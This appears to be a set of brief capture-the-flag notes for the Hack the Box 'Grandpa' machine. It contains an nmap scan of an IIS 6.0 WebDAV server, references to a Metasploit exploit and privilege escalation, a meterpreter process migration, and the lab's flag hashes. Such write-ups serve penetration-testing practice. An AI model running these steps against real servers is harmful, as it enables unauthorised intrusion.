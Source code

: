 ```yaml
---
title: Grandpa - Hack the Box
date: 2024-10-13 12:37:45 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Grandpa.png
---
```

#msfconsole 
### Reconnaissance
```
┌──(root㉿kali)-[/home/li0t]
└─# nmap -sV -sC --open -p- 10.10.10.14
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-07 15:32 EDT
Nmap scan report for 10.10.10.14
Host is up (0.12s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Date: Sat, 07 Sep 2024 19:35:30 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_http-title: Under Construction
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 207.97 seconds
```
### Enumeration
- Same IIS as granny 
- msf scstoragepath from url instead of asp upload
- ![Image](/assets/Screenshot 2024-09-07 at 3.44.15 PM.png)
- migration to 32 bit
```
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System
 148   1072  cidaemon.exe
 272   4     smss.exe
 320   272   csrss.exe
 344   272   winlogon.exe
 392   344   services.exe
 404   344   lsass.exe
 580   392   svchost.exe
 668   392   svchost.exe
 732   392   svchost.exe
 772   392   svchost.exe
 788   392   svchost.exe
 924   392   spoolsv.exe
 952   392   msdtc.exe
 1072  392   cisvc.exe
 1112  392   svchost.exe
 1168  392   inetinfo.exe
 1204  392   svchost.exe
 1316  392   VGAuthService.exe
 1392  392   vmtoolsd.exe
 1504  392   svchost.exe
 1600  392   svchost.exe
 1768  344   logon.scr
 1804  392   dllhost.exe
 1896  392   alg.exe
 1904  580   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 2404  580   wmiprvse.exe
 2572  3408  rundll32.exe       x86   0                                      C:\WINDOWS\system32undll32.exe
 2768  788   HelpSvc.exe
 3408  1504  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 3480  580   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 4028  1072  cidaemon.exe
 4072  1072  cidaemon.exe

meterpreter > migrate 3480
[*] Migrating from 2572 to 3480...
[*] Migration completed successfully.

```
sysinfo![Image](/assets/Screenshot 2024-09-07 at 3.46.28 PM.png)
local exploit suggester
- ![Image](/assets/Screenshot 2024-09-07 at 3.51.10 PM.png)
- param and privesc![Image](/assets/Screenshot 2024-09-07 at 3.53.07 PM.png)

user: bdff5ec67c3cff017f2bedc146a5d869

root: 9359e905a2c35f861f6a57cecf28bb7b

### Exploit
### User
### Flag
